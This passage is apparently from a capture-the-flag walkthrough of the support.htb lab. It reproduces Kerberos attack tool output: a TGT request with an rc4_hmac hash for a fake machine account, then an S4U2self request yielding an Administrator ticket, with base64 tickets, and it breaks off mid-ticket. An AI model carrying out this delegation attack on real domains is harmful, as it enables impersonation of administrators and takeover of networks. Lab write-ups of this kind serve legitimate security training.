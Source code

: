 ```powershell

[*] Using rc4_hmac hash: 32ED87BDB5FDC5E9CBA88547376818D4
[*] Building AS-REQ (w/ preauth) for: 'support.htb\FAKE01$'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFUjCCBU6gAwIBBaEDAgEWooIEazCCBGdhggRjMIIEX6ADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBCUwggQhoAMCARKhAwIBAqKCBBMEggQPAL78b923
      rGCicn4pwZk0bfwt1GoXmaoYh/Wku4i0YhxMaUgHzIM/I8GLalzG5EBSajzoLHKM0o9Msf+KBssgoHEn
      1vmQsk/QQux6C4g7KViT/wBD8wC/8zeNr/awfncvG88qia9PD6AclK/lK75UEdKCN/WE7ncBLICt81kQ
      9PWdl00acxgLrYg0IKDgwQ1KMIpHl8GelR5FRF/6Q0l3dENfJaAG7OXeaXwo+LAOmU/BkoBt+PImYmSe
      SrsK5kdu/GqDuI+tTDnUk4jr9syK69rFjVRmbVhruwjXmagThMn8dnzwQ7SbnrxWUKKBgLayFi1l6hGL
      o/aEydTcKFuI9LO2T4e1ZTl7VbFsR7YeWXGlsLONRyNIfvGihYec///fz57CWX0K1lUvUFBei0kiGDQT
      kq/IOO8wqbNZ/BUjQOxEJx7f2Vdoxx0VwplRzgoFDjCyhoz2Xvg+i2IQwQldDs/oJbO/YHkWL0XMQvTg
      D3tBSrP0l6XHxduPY5w4Up9LOzoK3Z/UVu9Aj9UlUPQg3Jnp7H9hj5va2elH56UGqOL5FsEZeihhBCaa
      rojucbSZzudJpkqh0BQ2NE12+okhgmaJTw4ItXg+2WGCytmjgq5k+QiFPa0t3Lv6/kazcMf1QPCduzuG
      dKv7A2qQwiu7K/Sw81U4lXfp/YJx/X9X7mL+TKn73ph5UVAByNiSYRLDK2chzUmda5fBDytAAP2U8QN4
      Q17L6NB84SSYWA9+Bjh6OiXXopfbXTBn2LscpT0X9RqYISHajroOVHEJo1hJQVkTwPshng1oMXI09ppY
      AxSLarGTDQUti130T1Ug0FakFuMK6jwx6jPAizYD51hTPRnfRXrRdelJ0gnfw4kz9F6JjR31YWsXPhGK
      mzzlXIsIKdROQCXWauigg91bDrWg7+0LLV78pVobgzVg5mICpwBPKhVp6KL0ERLWLfMW6SJofanJX+my
      bm/o6d2zF4bamgZC5ySRtb1H3cC6eYNQHXBu9UEaEWRXIG9zwRYYjhTbEPq6dpAFW3v7tXs8dhwYaZCi
      yO2Zu7OrlLeVE6Ydf5zWHUP4q517qk/ilOUvwmSNAyOLMOX3B+mY87djRRCeDEIKZNBlDnF8MJEdq2dt
      IFSWR2q7FegAwBAGg3w6M9CulN+bFXtJ+w31FQeRMJ7Dz0Ds/ZTtyZodT6nE6VgIDGQmvDv3o9r0OAsx
      vRVDj/G+5cscdZEY8KT6tIG2JARNxT4xBY93/nJqHja1dcp5bUIhlqRJVyM4+wFYaUSsilp3H4TDjW+O
      P/iCkJK75H0amdetHLUA6Z5WHbgZJjUnXgguy0mvkM/tljEzc/c1UH6nn4ssvzIE5S5/g4OHWLLMYn8y
      NRdMX2/u5cQCf6jzaqOB0jCBz6ADAgEAooHHBIHEfYHBMIG+oIG7MIG4MIG1oBswGaADAgEXoRIEEPQk
      1ifu6SFscVVJEmCnPKOhDRsLU1VQUE9SVC5IVEKiFDASoAMCAQGhCzAJGwdGQUtFMDEkowcDBQBA4QAA
      pREYDzIwMjQwMTEwMTYzNzAxWqYRGA8yMDI0MDExMTAyMzcwMVqnERgPMjAyNDAxMTcxNjM3MDFaqA0b
      C1NVUFBPUlQuSFRCqSAwHqADAgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0Yg==


[*] Action: S4U

[*] Building S4U2self request for: 'FAKE01$@SUPPORT.HTB'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2self request to ::1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'FAKE01$@SUPPORT.HTB'
[*] base64(ticket.kirbi):

      doIFojCCBZ6gAwIBBaEDAgEWooIEwTCCBL1hggS5MIIEtaADAgEFoQ0bC1NVUFBPUlQuSFRCohQwEqAD
      AgEBoQswCRsHRkFLRTAxJKOCBIcwggSDoAMCARehAwIBAaKCBHUEggRxuHBeSREv2qOr3hr+pTlw7et3
      YbpK5ItwOB9AqsUKgi3Jk20TlMWX1ZXKhJlVLoY5hnVa9RQIYJsoOrc9i2MzarkAmFAAIm7rQLvOlV2K
      62EzNY/cxl4TGaDRHdlELQ1gWxLB5UgbzSj4rSra+mcsx1wUvdk0453btYxDfWrm9geFF6pxsa0W1CmF
      MMqX+nTue74s5J18zWJYUS2fkdDPZJR+oGdN7KE+JcfhloGKbFJHKRnrpvwpCz1iB5XpI2QuE3ksFl53
      jm8hUDu9vv3gj8K3WruB2V79d8MHEjFniRNxu67klYqFz4QhgIaXy/9474SaEINbmoDiasyS3cn68Ulh
      pndHtPaD05oQEr/WU3AOa56H5f4A8u09oqdTo3LuIWkTDBSmuQV/QNEMeqSDLn2b+VWCKLDNxFwxGX6t
      8h7vzW7ST43MASaJEF03FHhKu83gRGZ6Cuu6rQL2Go+gEYtq9A9+D6uqQPqsT+0hnX2/7d5ruRTlQF/Q
      0r7LvwAKYi8n5sp1FKiEcniLmKDSgJbSBN2vIcldyQTQ5mM36l3DDFAvXOTZVWJNITF3ejWYM5oy/EF6
      8vlt1K/aizg1Ur72fUP347K1eRZfFJwH6DOJsctG2HBRpDr1aMkOHT6t3JgD8BMPYyDSYb7+/854qJbD
      wjsuvsLCQ/Jwfqjhd4HEVRVTKHtoMh1DBrw2hzuDENJWehwG9gvSDUtyCZQ90Baaqeej5RGR/XXH3iAq
      SjZJy8ZCoIrlDDeneDGEhkuJ/fRTBVr9DizH0+SqL552SgpxQ1GgyS+pdvktnF3z9DiPYhVO9gZG5Pyf
      DL6Q/iXW2WaYquAbwSa1+cxAun4HNeBWO1UfLXYlQOvv3t6CWiFyLoHXp0kJ5ve2g0SbgF6E94eQIKRM
      r1Qz35bWdyumxRulHOFy4Ni72tae3ONWXwYuX6hYL33D5mArEZdAlxlorq1XUrreM87zYfoEA4BCZmjX
      S3W/v9Y3r2Ri4PaRyaCg3QLIebS1dzyDlSokonc03mQrFf5Gmfs05lhJksbwMN96Ll3sYaOzCdCQxtFu
      KGjbmTSVE0IrcVIq5R3rNrkndnoWD3wSQovOKybmo68JCo6qs8zt1Iutukk+V42SItTR/wDBuYsqCRTA
      UKr+0laihD3SK+s7Sy4tGaCEmBT0rmkwpuMi7St6U07lK6y80tMwU/UxnJCkBXsXlDwKOUnhGxrXnXl/
      yuVf7f/a9S0XjtWuwkuAr/8zHvE8hV+IvfmtMGqKvFJR9Ij3lWRTzFj6ur5XYpqIpRtY68O5L6MaiRps
      uENeXBBMCicov6nlgC86iSDopjNzXX38FvUIN+EfBjVxWwpWlIKgoiI8Mgj2L60hW8SQqZ3WOqJDoOc2
      5ydwNUE3PbcOKGU4rRLqGSPtct2QuDPaAbGvIvD/lU8h4qGZ1jkrlS+Gsc8I84yCKK+OUet0Y4tyB/I9
      t+SzQhy4clc26NUK09GfByJk9LdCEEcgcD6wVOh4Q/ROjUl85s3Qo4HMMIHJoAMCAQCigcEEgb59gbsw
      gbiggbUwgbIwga+gGzAZoAMCARehEgQQLIH0TsDKTcMZVRBNiBVlHaENGwtTVVBQT1JULkhUQqIaMBig
```
